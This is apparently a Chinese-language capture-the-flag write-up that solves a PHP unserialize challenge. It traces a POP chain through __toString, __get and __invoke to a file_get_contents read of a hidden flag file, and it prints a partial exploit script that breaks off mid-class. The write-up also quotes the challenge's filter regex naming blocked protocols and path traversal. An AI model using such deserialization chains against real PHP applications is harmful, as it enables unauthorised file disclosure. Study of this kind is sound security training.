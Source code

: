 1. 先扫了一眼，就看到了

```php
if(isset($_GET['chal']))
{
    $chal = unserialize($_GET['chal']);
}
```

然后就想到应该是反序列化的题目

2. 找一下可以读文件的点，就发现了Read（）中的file_get（）中调用了file_get_contents（），这里应该就是文件读取的地方了
3. 但是要如何触发这个方法呢，可以看到Read类中的__invoke()方法中调用了file_get(),而这个魔术方法触发的条件是:当类的一个对象被当作函数调用的时候触发，而在Test类中__get()中，刚好又有这么一个点：

```php
public function __get($key)
    {
        $func = $this->params;
        return $func();
    } 
```

4. 接下来就是如何触发__get()方法呢，这个方法的触发条件就是访问类中的私有属性或者是不存在的属性时，，找一找还没有利用过的方法，，可以看到Test类中的__toString()方法，如果$this->str['str']被覆盖为Test类，那么此时就相当于访问Test类中不存在的属性，此时就可以触发__get()方法
5. 接下来就是如何触发__toString()方法呢，可以发现有一个preg_match()方法有用到$this->source，了解到preg_match()会将参数当作字符串，此时就触发了__toString()方法
6. 大概思路已经清晰了，但是要读什么文件呢，，刚开始一直在读flag.php，发现读不来，后来在代码中发现了‘'/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source’，所以应该是读fllllllaaaaaag.php，然后就拿到了flag((((

最后的EXP如下

```php
<?php 

class Read {
    private $var="fllllllaaaaaag.php";
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
    
    public function __invoke(){
        $content = $this->file_get($this->var);
        echo $content;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($file='index.php')
    {
        $this->source = $file;
        echo $this->source.'瑙ｆ瀽寮€濮�'."<br>";
    }
   
    public function __toString()
    {
        $this->str['str']->source;
    }

    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
```